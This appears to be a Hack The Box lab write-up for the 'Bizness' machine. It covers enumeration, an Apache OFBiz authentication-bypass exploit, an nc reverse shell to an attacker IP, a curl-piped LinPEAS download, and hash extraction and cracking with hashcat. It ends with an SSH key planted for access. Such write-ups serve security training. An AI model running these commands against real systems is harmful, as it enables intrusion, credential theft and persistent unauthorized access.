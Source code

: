 ```yaml
---
date: 2025-03-10
categories: [CTF, HTB]
title: "HTB - Bizness"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell']

description: "Bizness - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Bizness

NMAP

![image1](../resources/c4c5de538cd64b3980ef74d7ee07df54.png)

- Add **bizness.htb** to /etc/hosts

![image2](../resources/7263dd7c2c5e4f3ebcb3e0cb31d90656.png)


![image3](../resources/9a1adcfedd5e40d1b95f02d12edd408b.png)

- Directory bruteforce (recursive):

```bash
ffuf -u https://bizness.htb/FUZZ -recursion -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1
```

![image4](../resources/708fc8bbb95b450ebd6d2a735a27ac06.png)

- Going to /webportal

![image5](../resources/b81db965335f4cc7a3930c89fbdf7363.png)

- Clicked on Login and used the credentials given but get this error:

![image6](../resources/fb7c0e582dff450b9ad782407ca13fbb.png)

- Go to <https://bizness.htb/myportal>

![image7](../resources/e361a49e029b4ec18f42066c9c3d6dee.png)

- I can register  (**password123**)

![image8](../resources/00adee3881b04c7abcbc7d684ddf7c32.png)
- But can't log in

![image9](../resources/2580e329c5e248e8af9155102ffd736c.png)

- Looking back at the home page - at the bottom:

![image10](../resources/a64ce76f5034402cbb18e0b617b03157.png)

- Googling Apache OFBiz exploit - found:
[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py)

[https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66](https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66)

- Trying the POC to see if it might be vulnerable:
[https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y](https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y)


![image11](../resources/6636619b5fff49bd8ef8dd929fa25cdb.png)


![image12](../resources/6e7d84b355cd4ccca6c2c7d3c2d2dab3.png)

- And using the python tool:

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git

python3 exploit.py --url https://bizness.htb

```

![image13](../resources/68434c4ef4a44ce28b21db1bf021240f.png)

- We can also run a command with it - but the command output doesn't get returned:

![image14](../resources/69aa90309cfb464295aaf588e130c940.png)

- I set up a listener:

```bash
rlwrap -cAr nc -lvnp 8081

```
- I tried loads of reverse shell options but the only one that worked was:
**nc -e /bin/bash 10.10.14.18 8081**

```bash
python3 exploit.py --url https://bizness.htb --cmd "nc -e /bin/bash 10.10.14.18 8081"

```

![image15](../resources/49337ed38d6b4b7092516df8aace061f.png)

- Got a shell:

![image16](../resources/4aab46873a5a447b8dc58e1a88cec2ee.png)

- Upgrade shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
#PRESS Ctrl+Z
stty raw -echo
fg

#PRESS ENTER
#PRESS ENTER

export TERM=xterm
stty cols 236 rows 59
PS1="\n\[\033[1;34m\][\$(date +%H%M)][\u@\h:\w]$\[\033[0m\] "
alias ls='ls --color=auto'
reset
clear

#PRESS ENTER

```

![image17](../resources/1e066e7572af4b488d8095ba17af0168.png)

- Upload LinPEAS:

```bash
curl http://10.10.14.18:8082/linpeas.sh | sh

```

![image18](../resources/8b8ad23a85a245e3a083892b57ead443.png)

```bash
systemctl list-units --type=service --state=running

```

![image19](../resources/ad79a255a6aa4231af2ac46afd785fd5.png)

- Two things stand out:
Normally /opt is empty but in this case it has the directory **ofbiz**

And the service **ofbiz.service**

- Query the service:

```bash
systemctl status ofbiz.service

```

![image20](../resources/3121db77ca6740a3ac8991f2b105a10b.png)

- Search for credentials within /opt/ofbiz:

```bash
grep --color=auto -irnw . -e "credentials" 2>/dev/null

```

![image21](../resources/5852ca65a4d04c3abfcf186abc77783e.png)

```bash
cat /opt/ofbiz/build.gradle

```

![image22](../resources/a702843a884542fba394be3f4fb6966e.png)

```bash
cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml

```

![image23](../resources/ff3b667122034ea3826bfa41613ee3cb.png)

{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a

- We have a SHA1 hash but the hash is for the password ofbiz, that we found before and it doesn't work

- Try and find other hashes:

```bash
grep -E 'SHA' -rnw /opt/ofbiz

```

![image24](../resources/c1bad59dda8f4e5ebea9d450c90f7f74.png)

- More concise grep:

```bash
grep -E '\\SHA\\\[a-zA-Z0-9\]+\\\[a-zA-Z0-9\_-\]+' -rnw .

```

```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat
```

![image25](../resources/fc39e427c2ef41df8fe832816a98ad07.png)

- Found the salt: **d**


![image26](../resources/68f82947e00a436f986365c048ffaa90.png)

- First we need to convert hash to normal base64 encoding by adding padding from URL Safe
and then decode it to hex:

```python
import base64

base64_str = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
base64_str_unsafe = base64_str.replace('-', '+').replace('_', '/')
base64_str_padded = base64_str_unsafe + '=' * ((4 - len(base64_str_unsafe) % 4) % 4)
decoded_bytes = base64.b64decode(base64_str_padded)
print(decoded_bytes.hex())

```

![image27](../resources/e5f95b894c744aebbca4a3ca0a525607.png)

- Now, apply mode 120 along with hash and salt format to crack:

```bash
hashcat -m 120 -a0 'b8fd3f41a541a435857a8f3e751cc3a91c174362:d' /usr/share/wordlists/rockyou.txt

```

![image28](../resources/1e13c4c2e2374769866c25380872e965.png)

- Root shell:

![image29](../resources/dc47da71fd44403e83862abd94683c49.png)

- Create SSH key to get better shell:

```bash
ssh-keygen -t rsa -b 4096

chmod 600 id_rsa
mkdir ~/.ssh

touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
echo "\<id_rsa.pub\>" >> ~/.ssh/authorized_keys
ssh ofbiz@10.129.18.39 -i id_rsa
```